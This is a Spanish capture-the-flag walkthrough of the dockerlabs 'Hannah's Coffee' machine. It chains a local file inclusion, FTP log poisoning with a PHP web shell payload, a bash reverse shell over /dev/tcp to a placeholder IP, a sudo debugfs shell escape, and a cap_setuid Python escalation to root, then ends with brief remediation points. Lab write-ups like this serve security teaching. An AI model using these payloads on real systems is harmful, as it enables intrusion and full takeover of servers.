

```md
By: B0mb0ncitoo

Este laboratorio lo puedes encontrar en dockerlabs.es de manera gratuita en la sección de Facil.
```

Recuerda que para montar el laboratorio tienes que iniciar tu docker.
```bash
sudo systemctl start docker 
```
Para iniciar la maquina, descomprimirla y ejecutarla.
```bash
bash auto_deploy.sh hannah-coffee.tar
```
## Escaneo Nmap
```bash
nmap -sS -sV -Pn -f 172.17.0.2
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
80/tcp open  http    Apache httpd 2.4.68 ((Debian))
```
## Fuzzing
```bash
gobuster dir -u "http://172.17.0.2:80/" -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 200                                            
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://172.17.0.2:80/
[+] Threads:        200
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2026/08/16 15:07:32 Starting gobuster
===============================================================
/index.php (Status: 200)
/pages (Status: 301)
/server-status (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
===============================================================
2026/08/16 15:07:40 Finished
===============================================================
```
Al no encontrar información relevante en los directorios ni en sus códigos fuente, realizamos un nuevo fuzzing de parámetros en index.php
```bash
wfuzz -c --hc=404 --hw 169 -t 200 -w /usr/share/seclists/Discovery/Web-Content/common.txt http://172.17.0.2:80/index.php?FUZZ=../../../etc/passwd 

/usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2:80/index.php?FUZZ=../../../etc/passwd
Total requests: 4750

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                                                                                                    
=====================================================================
000003993:   200        29 L     90 W       960 Ch      "stored"                                                                                                                                                                                                                                                   
000004001:   200        29 L     90 W       960 Ch      "strut"                                                                                                                                                                                                                                                    
000004009:   200        29 L     90 W       960 Ch      "style_captcha"                                                                                                                                                                                                                                            
000004005:   200        49 L     78 W       1894 Ch     "studio"                                                                                                                                                                                                                                                   
000003665:   200        29 L     90 W       960 Ch      "screen"                                                                                                                                                                                                                                                   
000004007:   200        29 L     90 W       960 Ch      "style"                                                                                                                                                                                                                                                    
000004012:   200        29 L     90 W       960 Ch      "style_images"                                                                                                                                                                                                                                             
000004011:   200        29 L     90 W       960 Ch      "style_emoticons" 
```
Aunque obtuvimos múltiples falsos positivos, identificamos "studio" un resultado cuyas respuestas mostraron valores diferentes al resto. Por lo que procedemos a examinar esta ruta.
```md
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:996:996:systemd Time Synchronization:/:/usr/sbin/nologin
Debian-exim:x:100:101::/var/spool/exim4:/usr/sbin/nologin
messagebus:x:995:995:System Message Bus:/nonexistent:/usr/sbin/nologin
ftp:x:101:103:ftp daemon:/srv/ftp:/usr/sbin/nologin
hannahftp:x:1000:1000::/home/hannahftp:/bin/sh
hannah:x:1001:1001::/home/hannah:/bin/bash
```
Logramos observar que existen 2 usuarios aparte del root, hannahftp y hannah. 

Lo que haremos ahora sera buscar más archivos del servidor.
```bash
wfuzz -c --hc=404 --hw 169 -t 200 -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt http://172.17.0.2/index.php?studio=../../../FUZZ

 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/index.php?studio=../../../FUZZ
Total requests: 930

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                                                                                                    
=====================================================================
000000210:   200        41 L     155 W      1346 Ch     "/etc/hosts.deny"
000000250:   200        43 L     147 W      1402 Ch     "/etc/netconfig"
000000251:   200        44 L     105 W      1129 Ch     "/etc/nsswitch.conf"
000000247:   200        31 L     84 W       921 Ch      "/etc/motd"
000000237:   200        377 L    1086 W     8774 Ch     "/etc/init.d/apache2"
000000401:   200        65 L     164 W      1546 Ch     "/etc/rpc"
000000400:   200        32 L     80 W       853 Ch      "/etc/resolv.conf"
000000433:   200        43 L     63 W       1044 Ch     "/etc/vsftpd.conf"
000000511:   200        25 L     65 W       842 Ch      "/proc/version"
000000503:   200        26 L     59 W       791 Ch      "/proc/net/arp"
000000507:   200        29 L     60 W       751 Ch      "/proc/partitions"                                                                                                                                                                                                                                         
000000502:   200        48 L     188 W      3817 Ch     "/proc/mounts"
000000498:   200        136 L    748 W      4715 Ch     "/proc/cpuinfo"
000000500:   200        25 L     49 W       660 Ch      "/proc/loadavg"
000000501:   200        79 L     205 W      2166 Ch     "/proc/meminfo"
000000504:   200        28 L     98 W       1081 Ch     "/proc/net/dev"
000000505:   200        27 L     77 W       1019 Ch     "/proc/net/route"                                                                                                                                                                                                                                          
000000506:   200        227 L    3490 W     31085 Ch    "/proc/net/tcp"                                                                                                                                                                                                                                            
000000510:   200        85 L     189 W      2096 Ch     "/proc/self/status"                                                                                                                                                                                                                                        
000000508:   200        24 L     45 W       667 Ch      "/proc/self/cmdline"
000000741:   200        25 L     54 W       698 Ch      "/var/log/vsftpd.log"
000000209:   200        34 L     101 W      1046 Ch     "/etc/hosts.allow"
000000206:   200        31 L     60 W       807 Ch      "/etc/hosts"
000000139:   200        72 L     92 W       1251 Ch     "/etc/group"
000000132:   200        46 L     234 W      1677 Ch     "/etc/crontab"
000000122:   200        249 L    1151 W     7813 Ch     "/etc/apache2/apache2.conf"
```
Igual obtuvimos varios falsos positivos, pero también encontramos rutas muy interesantes a examinar. A mi me dio intriga "/var/log/vsftpd.log" que es  es el archivo de registro (log) del servicio FTP vsftpd (Very Secure FTP Daemon). Este archivo guarda un historial de todas las actividades relacionadas con el servidor FTP (Recordemos que teniamos expuesto el puerto 21). Examinando encontramos esto:
```md
Sun Aug 16 19:05:58 2026 [pid 17] CONNECT: Client "172.17.0.1" 
```
Haremos pruebas para ver como se muestran las actividades en el puerto 21.
```bash
ftp 172.17.0.2                    
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:B0mb0ncito): B0mb0ncito
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> bye
221 Goodbye.
```
```md
Sun Aug 16 19:05:58 2026 [pid 17] CONNECT: Client "172.17.0.1" Sun Aug 16 19:46:12 2026 [pid 426] CONNECT: Client "172.17.0.1" 
Sun Aug 16 19:46:24 2026 [pid 425] [B0mb0ncito] FAIL LOGIN: Client "172.17.0.1" 
```
Vemos que si se guarda la actividad, intentaremos envenenar el log inyectando código PHP.
```bash
ftp 172.17.0.2                                                          
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:B0mb0ncito): <?php system($_GET['cmd']); ?>
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> bye 
221 Goodbye.
```
```md
Sun Aug 16 19:05:58 2026 [pid 17] CONNECT: Client "172.17.0.1" Sun Aug 16 19:46:12 2026 [pid 426] CONNECT: Client "172.17.0.1" 
Sun Aug 16 19:46:24 2026 [pid 425] [B0mb0ncito] FAIL LOGIN: Client "172.17.0.1"
Sun Aug 16 19:57:32 2026 [pid 429] CONNECT: Client "172.17.0.1"
Sun Aug 16 19:58:11 2026 [pid 428] [
```
Ahora intentaremos enviar comandos a través de curl.
```bash
curl "http://172.17.0.2/index.php?studio=../../../var/log/vsftpd.log&cmd=id"
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Hannah's Coffee</title>
    <link rel="stylesheet" href="style.css">
</head>
<body>
    <header class="navbar">
        <h1>☕ Hannah's Coffee</h1>
        <nav>
            <a href="index.php?page=home">Home</a>
            <a href="index.php?page=menu">Menu</a>
            <a href="index.php?page=about">About</a>
            <a href="index.php?page=contact">Contact</a>
        </nav>
    </header>
    <main class="content">
        Sun Aug 16 19:05:58 2026 [pid 17] CONNECT: Client "172.17.0.1"
Sun Aug 16 19:46:12 2026 [pid 426] CONNECT: Client "172.17.0.1"
Sun Aug 16 19:46:24 2026 [pid 425] [B0mb0ncito] FAIL LOGIN: Client "172.17.0.1"
Sun Aug 16 19:57:32 2026 [pid 429] CONNECT: Client "172.17.0.1"
Sun Aug 16 19:58:11 2026 [pid 428] [uid=33(www-data) gid=33(www-data) groups=33(www-data)
] FAIL LOGIN: Client "172.17.0.1"
    </main>
    <footer>
        <p>&copy; 2026 Hannah's Coffee. All rights reserved.</p>
    </footer>
</body>
</html>
```
Obeserva como si procesa el comando.
```bash
Sun Aug 16 19:58:11 2026 [pid 428] [uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Prueba 2.
curl "http://172.17.0.2/index.php?studio=../../../var/log/vsftpd.log&cmd=ls"
```bash
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Hannah's Coffee</title>
    <link rel="stylesheet" href="style.css">
</head>
<body>
    <header class="navbar">
        <h1>☕ Hannah's Coffee</h1>
        <nav>
            <a href="index.php?page=home">Home</a>
            <a href="index.php?page=menu">Menu</a>
            <a href="index.php?page=about">About</a>
            <a href="index.php?page=contact">Contact</a>
        </nav>
    </header>
    <main class="content">
        Sun Aug 16 19:05:58 2026 [pid 17] CONNECT: Client "172.17.0.1"
Sun Aug 16 19:46:12 2026 [pid 426] CONNECT: Client "172.17.0.1"
Sun Aug 16 19:46:24 2026 [pid 425] [B0mb0ncito] FAIL LOGIN: Client "172.17.0.1"
Sun Aug 16 19:57:32 2026 [pid 429] CONNECT: Client "172.17.0.1"
Sun Aug 16 19:58:11 2026 [pid 428] [index.php
pages
style.css
] FAIL LOGIN: Client "172.17.0.1"
    </main>
    <footer>
        <p>&copy; 2026 Hannah's Coffee. All rights reserved.</p>
    </footer>
</body>
</html>
```
Confirmado, tenemos una vulnerabilidad de tipo Local File Inclusion (LFI) en la aplicación web "Hannah's Coffee" que permite a un atacante ejecutar comandos arbitrarios en el servidor (Remote Code Execution - RCE) mediante la técnica de Log Poisoning del servicio FTP vsftpd. Procederemos a ejecutar una shell inversa.
```bash
Sun Aug 16 19:58:11 2026 [pid 428] [index.php pages style.css]
```
Listener.
```bash
nc -lvnp 4444
```
Enviar shell inversa.
```bash
curl "http://172.17.0.2/index.php?studio=../../../var/log/vsftpd.log&cmd=bash+-c+'bash+-i+>%26+/dev/tcp/TU_IP/4444+0>%261'"
```
Logramos la conexión.
```bash
www-data@b95b968aa04d:/var/www/html$ 
```
Empezamos a interactuar.
```bash
www-data@b95b968aa04d:/var/www/html$ pwd 
pwd 
/var/www/html
www-data@b95b968aa04d:/var/www/html$ whoami
whoami
www-data
www-data@b95b968aa04d:/var/www/html$ id 
id 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@b95b968aa04d:/var/www/html$ ls 
ls 
index.php
pages
style.css
www-data@b95b968aa04d:/var/www/html$ sudo -l 
sudo -l 
Matching Defaults entries for www-data on b95b968aa04d:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on b95b968aa04d:
    (hannah) NOPASSWD: /sbin/debugfs -w /opt/hannah_disk.img
```
El usuario www-data tiene permisos sudo sin contraseña para ejecutar el binario /sbin/debugfs con la opción -w sobre el archivo /opt/hannah_disk.img como el usuario hannah. Esto permite escalar privilegios y potencialmente obtener acceso como hannah.
```bash
www-data@b95b968aa04d:/var/www/html$ sudo -u hannah /sbin/debugfs -w /opt/hannah_disk.img
<udo -u hannah /sbin/debugfs -w /opt/hannah_disk.img
debugfs 1.47.2 (1-Jan-2025)
debugfs:  ls 
ls 
 2  (12) .    2  (12) ..    11  (20) lost+found   
 13  (968) hannah_secret.txt
 
debugfs:  cat hannah_secret.txt
cat hannah_secret.txt
G'2'ZkcHsulI*vE+D,

debugfs:  !id
!id
uid=1001(hannah) gid=1001(hannah) groups=1001(hannah)

debugfs:  !bash
!bash

ls -l
total 12
-rw-r--r-- 1 root root 1064 Aug  6 08:04 index.php
drwxr-xr-x 2 root root 4096 Aug  6 08:15 pages
-rw-r--r-- 1 root root 2120 Aug  6 08:14 style.css

id
uid=1001(hannah) gid=1001(hannah) groups=1001(hannah)

getcap -r / 2> /dev/null
/opt/priv-python cap_setuid=ep
```
Escalamos privilegios de www-data a hannah mediante la explotación de permisos sudo con debugfs. Interacatuando vemos "hannah_secret.txt" aunque no nos ayuda de mucho, por lo que examinamos más e identificamos un binario Python con capabilities que permite escalar a root.

Desglose.

1. Ejecución de comandos del sistema

```bash
debugfs:  !bash
!bash
```
El signo ! en debugfs es un comando especial que permite ejecutar comandos del sistema operativo desde dentro de la sesión de debugfs sin salir de ella. 

¿Por qué !bash permite escalar privilegios?
```bash
www-data@b95b968aa04d:/var/www/html$ sudo -u hannah /sbin/debugfs -w /opt/hannah_disk.img
```
Cuando ejecutas esto:

| Paso | Acción |
| --- | --- |
| **1. Permisos** | `sudo` te da permisos de hannah | 
| **2. Ejecución** | `debugfs` se ejecuta como hannah |
| **3. Escape** | `!bash` ejecuta una shell como hannah |

¿Por qué es peligroso? 

<br>• `debugfs` está permitido en `sudoers` para ejecutarse como `hannah`. 

<br>• `debugfs` tiene el comando `!`, el cual permite ejecutar cualquier comando del sistema. 

<br>• Esto crea una escapatoria (*shell escape*) directa para ejecutar comandos arbitrarios con los privilegios de `hannah`. 

2. Capabilities
```bash
getcap -r / 2> /dev/null
```
¿Qué son las Capabilities en Linux?

Las capabilities son una característica de seguridad de Linux que divide los privilegios del superusuario (root) en unidades más pequeñas y manejables. En lugar de dar todos los poderes de root a un binario, se le pueden dar solo capabilities específicas.

| Parte | Significado |
| --- | --- |
| **getcap** | Muestra las capabilities de los archivos | 
| **-r** | Muestra las capabilities de los archivos |
| **/** | Desde el directorio raíz |
| **2>/dev/null** | Oculta errores de permisos denegados |

Resultado.
```bash
/opt/priv-python cap_setuid=ep
```
| Componente | Valor | Significado |
| --- | --- | --- |
| **Archivo** | /opt/priv-python | Binario Python modificado |
| **Capability** | cap_setuid | Permite cambiar el UID del proceso |
| **Flags** | =ep | e=efectiva, p=permitida |

Procedemos a la escalación de root.
```bash
/opt/priv-python -c 'import os; os.setuid(0); os.execl("/bin/sh", "sh")'

id 
uid=0(root) gid=1001(hannah) groups=1001(hannah)

pwd 
/var/www/html

cd /

ls -l
total 68
lrwxrwxrwx   1 root root    7 Jul  4 09:05 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Jul  4 09:05 boot
drwxr-xr-x   5 root root  340 Aug 16 18:57 dev
drwxr-xr-x   1 root root 4096 Aug 16 18:57 etc
drwxr-xr-x   1 root root 4096 Aug  6 08:46 home
lrwxrwxrwx   1 root root    7 Jul  4 09:05 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Jul  4 09:05 lib64 -> usr/lib64
drwxr-xr-x   2 root root 4096 Aug  3 00:00 media
drwxr-xr-x   2 root root 4096 Aug  3 00:00 mnt
drwxr-xr-x   1 root root 4096 Aug  6 08:46 opt
dr-xr-xr-x 292 root root    0 Aug 16 18:57 proc
drwx------   1 root root 4096 Aug  6 08:46 root
drwxr-xr-x   1 root root 4096 Aug  6 08:45 run
lrwxrwxrwx   1 root root    8 Jul  4 09:05 sbin -> usr/sbin
drwxr-xr-x   1 root root 4096 Aug  6 08:44 srv
-rw-r--r--   1 root root  725 Aug 16 19:46 supervisord.log
-rw-r--r--   1 root root    2 Aug 16 18:57 supervisord.pid
dr-xr-xr-x  13 root root    0 Aug 16 18:57 sys
drwxrwxrwt   1 root root 4096 Aug 16 18:57 tmp
drwxr-xr-x   1 root root 4096 Aug  3 00:00 usr
drwxr-xr-x   1 root root 4096 Aug  6 08:44 var

cd root 

ls -l 
total 4
-rw------- 1 root root 42 Aug  6 08:46 root.txt

cat root.txt
dl{root_d5cc9d7538dc7c341cd96bba5a951520}
```
Mediante código de python cambiamos nuestro UID a 0 (root) y tener una shell, indagamos una vez ejecutado y vemos la bandera en /root/root.txt y terminamos el laboratorio.

**Diagrama de ataque.**



**Remediación LFI** 
```md
1. Eliminar permisos sudo peligrosos

2. Quitar capabilities innecesarias

3. Implementar whitelist en PHP,

4. Validación de rutas.

5. configuración PHP. (Limitar directorios accesibles,  Deshabilitar funciones peligrosas)

6. Configuración de vsftpd

7. Configurar firewall y monitoreo
```
